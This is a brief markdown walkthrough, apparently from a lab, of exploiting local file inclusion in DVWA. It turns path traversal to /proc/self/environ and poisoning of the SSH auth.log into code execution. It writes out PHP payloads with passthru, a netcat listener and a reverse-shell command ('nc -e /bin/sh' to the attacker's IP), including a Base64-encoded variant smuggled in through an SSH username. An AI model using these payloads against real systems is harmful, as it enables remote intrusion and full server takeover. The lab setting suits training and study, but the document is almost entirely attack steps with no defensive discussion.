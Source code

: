 # DVWA

## File Inclusion
- Method 1
  1. *"USER_AGENT"* has shown from this path
     - ```10.20.14.209/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ```
  2. Intercept request and modify to ```<?phpinfo();?>``` for test
  3. Attacker machine: ```nc -vv -l -p 8888```
  4. Modify to ```<?passthru("nc -e /bin/sh 10.20.14.208 8888");?>``` for Reverse-shell

- Method 2
  1. SSH login attempt has shown from this file
     - ```10.20.14.209/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log```  
  2. Encode ```nc -e /bin/sh 10.20.14.208 8888``` to Base64
  3. Attacker machine: ```nc -vv -l -p 8888```
  4. Attacker machine: ```ssh "<?passthru(base64_decode('xxxxxxxxxxxxxxx'));?>"@10.20.14.210```
